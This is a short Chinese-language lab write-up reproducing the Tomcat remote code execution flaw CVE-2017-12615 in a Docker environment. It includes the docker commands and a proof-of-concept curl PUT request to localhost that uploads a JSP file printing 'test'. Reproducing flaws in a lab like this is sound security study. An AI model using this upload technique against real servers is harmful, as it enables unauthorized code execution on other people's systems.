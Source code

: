 ```yaml
---
title: Tomcat远程代码执行漏洞(CVE-2017-12615)
category: 
- 渗透测试
tags: 
- Docker
- 漏洞复现
---
```


### 漏洞概述

- [影响版本](http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:t_tomcat_1
```

- 启动环境

```bash
$ docker run -d -p 8080:8080 medicean/vulapps:t_tomcat_1
```

<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`
- Poc

向目标发起 PUT 请求，注意后缀为 `.jsp/`

```bash
$ curl -X PUT "http://127.0.0.1:8080/123.jsp/" -d '<%out.println("test");%>'
```

然后访问目标地址 `http://127.0.0.1:8080/123.jsp`, 即可看到输出了 `test`

### 利用过程

- 启动kali
- 使用docker搭建漏洞环境
- 开始利用

![image-20201201135315660](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201135315660.png)

![image-20201201135343344](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201135343344.png)

### 参考链接

[references](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)